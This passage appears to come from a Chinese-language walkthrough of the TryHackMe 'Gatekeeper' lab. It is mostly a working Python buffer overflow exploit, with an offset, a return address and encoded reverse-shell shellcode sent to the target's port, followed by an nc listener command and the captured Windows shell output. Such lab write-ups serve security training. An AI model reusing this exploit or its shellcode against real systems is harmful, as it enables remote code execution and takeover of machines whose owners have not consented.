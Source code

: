 ip = "192.168.3.49"
port = 31337

prefix = "OVERFLOW1 "
offset = 136 
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"

padding = "\x90" * 16

buf = ""
buf +="\xbf\x9b\xb8\x8f\xc4\xda\xcf\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
buf +="\x52\x83\xc0\x04\x31\x78\x0e\x03\xe3\xb6\x6d\x31\xef\x2f\xf3"
buf +="\xba\x0f\xb0\x94\x33\xea\x81\x94\x20\x7f\xb1\x24\x22\x2d\x3e"
buf +="\xce\x66\xc5\xb5\xa2\xae\xea\x7e\x08\x89\xc5\x7f\x21\xe9\x44"
buf +="\xfc\x38\x3e\xa6\x3d\xf3\x33\xa7\x7a\xee\xbe\xf5\xd3\x64\x6c"
buf +="\xe9\x50\x30\xad\x82\x2b\xd4\xb5\x77\xfb\xd7\x94\x26\x77\x8e"
buf +="\x36\xc9\x54\xba\x7e\xd1\xb9\x87\xc9\x6a\x09\x73\xc8\xba\x43"
buf +="\x7c\x67\x83\x6b\x8f\x79\xc4\x4c\x70\x0c\x3c\xaf\x0d\x17\xfb"
buf +="\xcd\xc9\x92\x1f\x75\x99\x05\xfb\x87\x4e\xd3\x88\x84\x3b\x97"
buf +="\xd6\x88\xba\x74\x6d\xb4\x37\x7b\xa1\x3c\x03\x58\x65\x64\xd7"
buf +="\xc1\x3c\xc0\xb6\xfe\x5e\xab\x67\x5b\x15\x46\x73\xd6\x74\x0f"
buf +="\xb0\xdb\x86\xcf\xde\x6c\xf5\xfd\x41\xc7\x91\x4d\x09\xc1\x66"
buf +="\xb1\x20\xb5\xf8\x4c\xcb\xc6\xd1\x8a\x9f\x96\x49\x3a\xa0\x7c"
buf +="\x89\xc3\x75\xd2\xd9\x6b\x26\x93\x89\xcb\x96\x7b\xc3\xc3\xc9"
buf +="\x9c\xec\x09\x62\x36\x17\xda\x4d\x6f\x14\x59\x26\x72\x1a\x4c"
buf +="\xea\xfb\xfc\x04\x02\xaa\x57\xb1\xbb\xf7\x23\x20\x43\x22\x4e"
buf +="\x62\xcf\xc1\xaf\x2d\x38\xaf\xa3\xda\xc8\xfa\x99\x4d\xd6\xd0"
buf +="\xb5\x12\x45\xbf\x45\x5c\x76\x68\x12\x09\x48\x61\xf6\xa7\xf3"
buf +="\xdb\xe4\x35\x65\x23\xac\xe1\x56\xaa\x2d\x67\xe2\x88\x3d\xb1"
buf +="\xeb\x94\x69\x6d\xba\x42\xc7\xcb\x14\x25\xb1\x85\xcb\xef\x55"
buf +="\x53\x20\x30\x23\x5c\x6d\xc6\xcb\xed\xd8\x9f\xf4\xc2\x8c\x17"
buf +="\x8d\x3e\x2d\xd7\x44\xfb\x4d\x3a\x4c\xf6\xe5\xe3\x05\xbb\x6b"
buf +="\x14\xf0\xf8\x95\x97\xf0\x80\x61\x87\x71\x84\x2e\x0f\x6a\xf4"
buf +="\x3f\xfa\x8c\xab\x40\x2f";

payload = buf
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

我们先在kali另外开一个新窗口，开启监听：```nc -lvp 4444```


重启gatekeeper.exe，执行exploit3.py

拿到我们靶机的反弹shell：
```
──(root💀kali)-[~/tryhackme/Gatekeeper]
└─# nc -lnvp 4444             
listening on [any] 4444 ...
connect to [192.168.3.67] from (UNKNOWN) [192.168.3.49] 49184
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����
